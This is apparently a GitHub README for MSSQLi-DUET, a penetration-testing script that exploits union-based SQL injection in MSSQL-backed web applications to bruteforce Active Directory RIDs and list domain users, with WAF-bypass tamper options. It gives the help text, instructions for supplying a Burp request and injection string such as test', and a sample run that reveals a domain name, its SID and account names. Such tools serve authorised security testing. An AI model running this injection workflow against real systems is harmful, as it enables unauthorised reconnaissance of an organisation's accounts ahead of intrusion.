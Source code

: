 # MSSQLi-DUET - MSSQL Injection-based Domain User Enumeration Tool

SQL injection script for MSSQL that extracts domain users from an Active Directory environment based on RID bruteforcing. Supports various forms of WAF bypass techniques through the implementation of SQLmap tamper functions. Additional tamper functions can be incorporated by the user depending on the situation and environment.

Currently only support union-based injection. Planning to add other techniques later. More samples and test cases are required to fully test tool's functionality, feedback and comments are greatly welcomed and appreciated!

## Usage
### Script Help
```
python3 mssqli-duet.py -h
usage: mssqli-duet.py [-h] -i INJECTION [-e ENCODING] -t TIME_DELAY -rid
                      RID_RANGE [-ssl SSL] -p PARAMETER [-proxy PROXY]
                      [-o OUTFILE] -r REQUEST_FILE

MSSQLi-DUET - MSSQL (Injection-based) Domain User Enumeration Tool

optional arguments:
  -h, --help            show this help message and exit
  -i INJECTION, --injection INJECTION
                        Injection point. Provide only the data needed to
                        escape the query.
  -e ENCODING, --encoding ENCODING
                        Type of encoding: unicode, doubleencode, unmagicquotes
  -t TIME_DELAY, --time_delay TIME_DELAY
                        Time delay for requests.
  -rid RID_RANGE, --rid_range RID_RANGE
                        Hypenated range of RIDs to bruteforce. Ex: 1000-1200
  -ssl SSL, --ssl SSL   Add flag for HTTPS
  -p PARAMETER, --parameter PARAMETER
                        Vulnerable parameter
  -proxy PROXY, --proxy PROXY
                        Proxy connection string. Ex: 127.0.0.1:8080
  -o OUTFILE, --outfile OUTFILE
                        Outfile for username enumeration results.
  -r REQUEST_FILE, --request_file REQUEST_FILE
                        Raw request file saved from Burp

Prepare to be enumerated!
```

### How to use
After identifying a union-based SQL injection in an application, copy the raw request from Burp Suite using the 'copy to file' feature.

Pass the saved request to DUET with the `-r` flag. Specify the vulnerable parameter and well as the point of injection. As an example, if the parameter "element" is susceptible to SQL injection, `-p` will be "element". DUET will build out all the SQL injection queries automatically, but specification for the initial injection needs to be provided. Meaning, if the injection occurs because of a single apostrophe after the parameter data, this is what would be specified for the `-i` argument. 
```
Ex: test' 
    test'))
    test")"
```

### Example
```
python3 mssqli-duet.py -i "carbon'" -t 0 -rid 1000-1200 -p element -r testrequest.req -proxy 127.0.0.1:8080
[+] Collected request data:
Target URL = http://192.168.11.22/search2.php?element=carbon
Method = GET
Content-Type = applcation/x-www-form-urlencoded


[+] Determining the number of columns in the table...
        [!] Number of columns is  3
[+] Determining column type...
        [!] Column type is null
[+] Discovering domain name...
        [+] Domain = NEUTRINO
[+] Discovering domain SID...
S-1-5-21-4142252318-1896537706-4233180933-

[+] Enumerating Active Directory via SIDs...

NEUTRINO\HYDROGENDC01$
NEUTRINO\DnsAdmins
NEUTRINO\DnsUpdateProxy
NEUTRINO\HELIUM$
NEUTRINO\BORON$
NEUTRINO\BERYLLIUM$
NEUTRINO\aeinstein
NEUTRINO\bbobberson
NEUTRINO\csagan
NEUTRINO\ccheese
NEUTRINO\svc_web
NEUTRINO\svc_sql
```

## References 
https://blog.netspi.com/hacking-sql-server-procedures-part-4-enumerating-domain-accounts/
